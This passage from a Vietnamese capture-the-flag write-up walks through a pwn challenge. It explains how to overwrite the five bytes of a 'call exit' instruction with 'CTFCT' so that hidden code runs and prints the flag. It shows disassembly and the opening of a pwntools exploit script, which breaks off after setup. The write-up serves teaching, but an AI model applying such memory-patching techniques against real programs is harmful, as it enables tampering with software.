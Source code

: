 ```c
      }
      exit(0);
    }
    puts("flag.txt empty");
    return 1;
  }
}
```
Lần này trong vòng lặp không có hàm `dprintf` nào được gọi ra.

Tuy nhiên nếu coi kĩ disassembly của hàm main , ta thấy dưới đoạn call `exit(0)` có một đoạn code ẩn:

```nasm
.text:000000000000143B
.text:000000000000143B loc_143B:                               ; CODE XREF: main+24F↑j
.text:000000000000143B                 mov     edi, 0          ; status
.text:0000000000001440                 call    _exit
.text:0000000000001445 ; ---------------------------------------------------------------------------
.text:0000000000001445                 mov     eax, [rbp+var_C]
.text:0000000000001448                 lea     rdx, aSomehowYouGotH ; "Somehow you got here??\n"
.text:000000000000144F                 mov     rsi, rdx        ; fmt
.text:0000000000001452                 mov     edi, eax        ; fd
.text:0000000000001454                 mov     eax, 0
.text:0000000000001459                 call    _dprintf
.text:000000000000145E                 call    _abort
```
Đoạn code đó sẽ gọi `dprintf(v10,"Somehow you got here??\n","Somehow you got here??\n")`.

Vậy mục tiêu là làm thế nào để chương trình không gọi exit mà thực thi luôn đoạn code ở dưới đó.

Để ý từ đoạn `call _exit` đến `mov     eax, [rbp+var_C]` cách nhau 5 bytes, vậy nên mình sẽ hướng đến việc sửa 5 bytes đó thành những bytecode hợp lệ thay thế cho `call exit_`.

Sau một hồi mò mẫn, mình sửa chúng thành "CTFCT", từ đó đoạn code đó trở thành:
```nasm
   0x0000555555555440 <+599>:   rex.XB push r12
   0x0000555555555442 <+601>:   rex.RX
   0x0000555555555443 <+602>:   rex.XB push r12
   0x0000555555555445 <+604>:   mov    eax,DWORD PTR [rbp-0xc]
   0x0000555555555448 <+607>:   lea    rdx,[rip+0xc86]        # 0x5555555560d5
   0x000055555555544f <+614>:   mov    rsi,rdx
   0x0000555555555452 <+617>:   mov    edi,eax
   0x0000555555555454 <+619>:   mov    eax,0x0
   0x0000555555555459 <+624>:   call   0x555555555090 <dprintf@plt>
   0x000055555555545e <+629>:   call   0x555555555030 <abort@plt>
```
Giờ khi vòng lặp bị break, đơn giản chương trình chỉ `push r12` 2 lần rồi gọi  `dprintf(v10,"Somehow you got here??\n","Somehow you got here??\n")`.

Vậy trước khi break vòng lặp, chỉ cần ghi đè chuỗi `"Somehow you got here??\n"` thành `flag`.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./chal")
libc = ELF("./libc.so.6")
gs="""
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
```